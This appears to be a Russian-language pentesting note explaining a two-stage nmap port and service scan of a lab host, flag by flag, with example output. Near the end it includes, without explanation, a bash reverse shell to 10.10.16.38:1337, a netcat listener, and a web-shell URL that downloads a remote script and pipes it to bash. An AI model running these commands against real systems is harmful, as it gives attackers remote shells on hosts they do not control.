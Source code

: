# N073800K
Этот скрипт выполняет двухэтапное сканирование сети с использованием инструмента `nmap`:

---

### **1. Первая часть: Сканирование всех портов**
```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.3 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
```

#### Разбор команды:
1. **`nmap -p- --min-rate=1000 -T4 10.10.10.3`:**
   - `-p-`: Сканирует все возможные порты (от 1 до 65535).
   - `--min-rate=1000`: Устанавливает минимальную скорость отправки пакетов (1000 пакетов в секунду).
   - `-T4`: Указывает агрессивный режим сканирования (быстрее, но может быть более заметен для сетевых систем).
   - `10.10.10.3`: IP-адрес цели.

2. **`grep '^[0-9]'`:**
   - Выбирает строки, начинающиеся с цифр. Это фильтрует только те строки, которые содержат информацию о портах (например, `80/tcp open`).

3. **`cut -d '/' -f 1`:**
   - Разделяет строку по символу `/` и выбирает первую часть, то есть номер порта (например, из строки `80/tcp open` останется только `80`).

4. **`tr '\n' ','`:**
   - Заменяет символы новой строки (`\n`) на запятые, чтобы получить список портов в формате `80,443,22`.

5. **`sed s/,$//`:**
   - Удаляет последнюю запятую из строки, чтобы список портов выглядел корректно (например, `80,443,22` вместо `80,443,22,`).

6. **`ports=$(...)`:**
   - Результат выполнения всей команды сохраняется в переменную `ports`.

---

### **2. Вторая часть: Подробное сканирование найденных портов**
```bash
nmap -p$ports -sC -sV 10.10.10.3
```

#### Разбор команды:
1. **`-p$ports`:**
   - Указывает, что нужно сканировать только те порты, которые были найдены в первой части (хранятся в переменной `$ports`).

2. **`-sC`:**
   - Запускает стандартные скрипты Nmap для обнаружения дополнительной информации о службах, работающих на открытых портах.

3. **`-sV`:**
   - Пытается определить версии программного обеспечения, работающего на каждом открытом порту.

4. **`10.10.10.3`:**
   - IP-адрес цели.

---

### **Что делает весь скрипт?**
1. На первом этапе сканируются **все порты** целевого хоста (`10.10.10.3`), и находятся открытые порты.
2. На втором этапе выполняется более детальное сканирование **только открытых портов**, чтобы собрать дополнительную информацию о службах и их версиях.

---

### **Пример вывода**
Предположим, что первое сканирование нашло следующие открытые порты: `22,80,443`. Тогда команда будет эквивалентна:
```bash
nmap -p22,80,443 -sC -sV 10.10.10.3
```

Результат может выглядеть так:
```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
```

---
```bash
#gobuster vhost -w /home/lolkek/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://target.com --append-domain.com


#!/bin/bash
bash -i >& /dev/tcp/10.10.16.38/1337 0>&1

nc -nvlp 1337
python3 -m http.server 8000
```

http://target.com/shell.php?cmd=curl%2010.10.16.38:8000/shell.sh|bash
---

### **Важные замечания**
1. **Права доступа:** Для выполнения таких сканирований могут потребоваться права суперпользователя (`sudo`), особенно если используется агрессивный режим (`-T4`).
2. **Этика использования:** Используйте этот скрипт только на тех системах, где у вас есть разрешение на проведение сканирования. Несанкционированное использование может быть незаконным.
3. **Зависимость от Nmap:** Убедитесь, что у вас установлен `nmap`, так как это основной инструмент для работы.

---

